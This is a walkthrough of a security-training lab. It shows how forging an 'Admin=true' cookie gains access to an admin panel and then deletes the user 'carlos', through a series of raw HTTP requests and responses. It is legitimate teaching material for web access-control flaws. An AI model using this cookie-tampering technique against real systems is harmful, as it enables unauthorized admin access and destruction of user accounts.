

## Lab: User role controlled by request parameter
This lab has an admin panel at `/admin`, which identifies administrators using a forgeable cookie.

Solve the lab by accessing the admin panel and using it to delete the user `carlos`.

You can log in to your own account using the following credentials: `wiener:peter`

## Solution
Start by logging in with the credentials we have. After logging in we send the request to the repeater.

Request:
```http
GET /my-account?id=wiener HTTP/2
Host: 0a570075049421d7801c120100c10007.web-security-academy.net
Cookie: Admin=false; session=6r8SohYqIvL7Ki3JteuRhrIX5qcv1xp6
Cache-Control: max-age=0
Accept-Language: en-GB,en;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/131.0.6778.140 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Sec-Ch-Ua: "Chromium";v="131", "Not_A Brand";v="24"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Linux"
Referer: https://0a570075049421d7801c120100c10007.web-security-academy.net/login
Accept-Encoding: gzip, deflate, br
Priority: u=0, i
```
Here we see a cookie named "Admin" set to false. Let's change this to true and try to access ```/admin```.
Request:
```http
GET /admin HTTP/2
Host: 0a570075049421d7801c120100c10007.web-security-academy.net
Cookie: Admin=true; session=6r8SohYqIvL7Ki3JteuRhrIX5qcv1xp6
Cache-Control: max-age=0
Accept-Language: en-GB,en;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/131.0.6778.140 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Sec-Ch-Ua: "Chromium";v="131", "Not_A Brand";v="24"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Linux"
Referer: https://0a570075049421d7801c120100c10007.web-security-academy.net/login
Accept-Encoding: gzip, deflate, br
Priority: u=0, i
```

Response:
```http
HTTP/2 200 OK
Content-Type: text/html; charset=utf-8
Cache-Control: no-cache
X-Frame-Options: SAMEORIGIN
Content-Length: 3115

<!DOCTYPE html>
<html>
    <head>
        <link href=/resources/labheader/css/academyLabHeader.css rel=stylesheet>
        <link href=/resources/css/labs.css rel=stylesheet>
        <title>User role controlled by request parameter</title>
    </head>
    <body>
**********SNIP***********
                    <section>
                        <h1>Users</h1>
                        <div>
                            <span>wiener - </span>
                            <a href="/admin/delete?username=wiener">Delete</a>
                        </div>
                        <div>
                            <span>carlos - </span>
                            <a href="/admin/delete?username=carlos">Delete</a>
                        </div>
                    </section>
**********SNIP***********
    </body>
</html>

```
Here we find the delete endpoint again.

Request:
```http
GET /admin/delete?username=carlos HTTP/2
Host: 0a570075049421d7801c120100c10007.web-security-academy.net
Cookie: Admin=true; session=6r8SohYqIvL7Ki3JteuRhrIX5qcv1xp6
Cache-Control: max-age=0
Accept-Language: en-GB,en;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/131.0.6778.140 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Sec-Ch-Ua: "Chromium";v="131", "Not_A Brand";v="24"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Linux"
Referer: https://0a570075049421d7801c120100c10007.web-security-academy.net/login
Accept-Encoding: gzip, deflate, br
Priority: u=0, i
```

Response:
```http
HTTP/2 302 Found
Location: /admin
X-Frame-Options: SAMEORIGIN
Content-Length: 0
```


## Alternative:
We could also, after login, change the cookie value in the browser to get access to the Admin panel link and delete the user through the browser.
